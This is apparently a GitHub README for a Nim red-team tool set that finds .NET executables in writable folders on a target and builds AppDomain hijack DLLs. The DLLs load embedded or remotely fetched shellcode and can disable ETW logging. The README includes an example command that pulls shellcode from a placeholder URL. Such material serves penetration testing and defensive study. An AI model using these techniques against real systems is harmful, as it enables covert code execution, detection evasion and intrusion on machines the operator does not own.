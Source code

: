 # AutoAppDomainHijack

Tools to automate finding AppDomain hijacks and generating payloads from shellcode.

## HijackHunt

Run this tool on the target. It will search recursively in the `C:\` directory for .NET managed `.exe`s and test if the folder is writeable - indicating that the PE is [AppDomainHijack](https://attack.mitre.org/techniques/T1574/014/)-able.

## AutoDomainHijack

Generate AppDomainHijack payloads given a shellcode file or url.

```CMD
Usage:
  AutoDomainHijack.exe
  AutoDomainHijack.exe (--version | -h | --help)

Options:
  -t, --target-name=<target-name>  Name of the target managed .exe to hijack.
  -n, --hijack-name=<hijack-name>  Name of the hijacker .dll.
  -u, --url=<url>                  URL of the remote shellcode to run.
  -f, --file=<file>                File containing the shellcode to embed.
  -o, --output=<output>            Full directory to write files to.
  -e, --etw=<etw>                  Disable ETW. [default: true]
      --version                    Prints version.
  -h, --help                       Show help message.
```

### Example

```CMD
AutoDomainHijack.exe -t vulnerable_bin.exe -u https://domain.tld/shellcode.bin -n hijack.dll -o C:\path\to\output\the\hijack\dll\
```

## Build

`nimble build`
